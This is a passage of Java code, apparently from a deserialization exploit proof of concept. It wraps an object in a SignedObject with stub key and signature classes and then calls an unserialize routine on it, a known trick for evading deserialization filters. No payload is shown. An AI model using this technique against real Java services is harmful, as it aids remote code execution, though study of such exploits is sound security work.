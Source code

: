 ```bash
        System.out.println(exp);
        util.unserialize(ser);
    }

    private static SignedObject makeSignedObject(Object o) throws IOException, InvalidKeyException, SignatureException {
        return new SignedObject((Serializable) o,
                new DSAPrivateKey() {
                    @Override
                    public DSAParams getParams() {
                        return null;
                    }

                    @Override
                    public String getAlgorithm() {
                        return null;
                    }

                    @Override
                    public String getFormat() {
                        return null;
                    }

                    @Override
                    public byte[] getEncoded() {
                        return new byte[0];
                    }

                    @Override
                    public BigInteger getX() {
                        return null;
                    }
                },
                new Signature("x") {
                    @Override
                    protected void engineInitVerify(PublicKey publicKey) throws InvalidKeyException {

                    }

                    @Override
                    protected void engineInitSign(PrivateKey privateKey) throws InvalidKeyException {

                    }

                    @Override
                    protected void engineUpdate(byte b) throws SignatureException {

                    }

                    @Override
                    protected void engineUpdate(byte[] b, int off, int len) throws SignatureException {

                    }

                    @Override
                    protected byte[] engineSign() throws SignatureException {
                        return new byte[0];
                    }

                    @Override
```